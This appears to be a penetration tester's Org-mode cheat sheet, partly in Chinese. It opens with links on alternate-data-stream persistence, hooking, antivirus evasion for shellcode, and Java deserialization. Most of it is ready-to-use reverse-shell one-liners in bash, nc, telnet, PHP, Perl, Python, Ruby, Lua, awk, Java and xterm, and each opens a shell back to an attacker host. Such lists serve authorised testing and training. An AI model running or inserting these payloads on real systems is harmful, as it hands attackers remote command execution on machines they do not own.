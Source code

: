 ** 数据隐藏
   - [[https://www.cnblogs.com/Chesky/p/ALTERNATE_DATA_STREAMS.html][NTFS 交换数据流]]
   - [[https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/][Data Streams]]
*** KeePass 安全机制
 - https://keepass.info/help/base/security.html
** Hook
   - Detours: https://github.com/microsoft/Detours/wiki
   - inline hook lib: https://bbs.pediy.com/thread-225863.htm
   - linux elf hook *demo*: https://bbs.pediy.com/thread-178320.htm
   - [[https://blog.netspi.com/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/][hook .so]]
   - [[http://www-personal.umich.edu/~zhaoyich/blog/2013/07/linux-api-hooking.html][api hook]]
** shellcode
   - 加密过杀软：https://xz.aliyun.com/t/6995
   - [[https://3gstudent.github.io/3gstudent.github.io/Shellcode%E7%94%9F%E6%88%90%E5%B7%A5%E5%85%B7Donut%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90/][3gstudent shellcode 生成工具]]
** Java
   - 反序列化代码执行：http://www.jackson-t.ca/runtime-exec-payloads.html
** reverse shell
*** bash
bash -i >& /dev/tcp/ip/port 0>&1
*** nc
nc -e /bin/bash 192.168.1.146 7777
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
*** telnet
    #+begin_src sh
    telnet mknod backpipe p && telnet attackerip 8080 0<backpipe | \
    /bin/bash 1>backpipe
    #+end_src
*** php
php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.1.146/7777");'
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
*** perl
    #+begin_src sh
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;
    socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
    if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
    open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    #+end_src
*** python
    #+begin_src sh
    python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,
              socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);
              os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
              p=subprocess.call(['/bin/bash','-i']);"
    python -c "exec(\"import socket, subprocess;s=socket.socket();
              s.connect(('127.0.0.1',9000))\n
              while 1:  proc = subprocess.Popen(s.recv(1024), shell=True,
              stdout=subprocess.PIPE, stderr=subprocess.PIPE,
              stdin=subprocess.PIPE);
              s.send(proc.stdout.read()+proc.stderr.read())\")"
    python -c "exec(shellcode.encode('base64').decode('base64'))"
    #+end_src
*** ruby
    #+begin_src sh
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;
            exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    #+end_src
*** lua
    #+begin_src sh
    lua -e "require('socket');require('os');t=socket.tcp();
    t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
    #+end_src
*** awk
#+begin_src awk
  #!/usr/bin/gawk -f
  BEGIN {
      Port    =  8080
      Prompt  =  "bkd> "
      Service = "/inet/tcp/" Port "/0/0"
      while (1) {
          do {
              printf Prompt |& Service
              Service |& getline cmd
              if (cmd) {
                  while ((cmd |& getline) > 0)
                      print $0 |& Service
                  close(cmd)
              }
          } while (cmd != "exit")
          close(Service)
      }
  }
#+end_src
*** misc

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

[Untested submission from anonymous reader]
xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip

Further Reading

Also check out Bernardo’s Reverse Shell One-Liners.  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a reverse shell written in gawk over here.  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentesters might want to use for reverse shells.
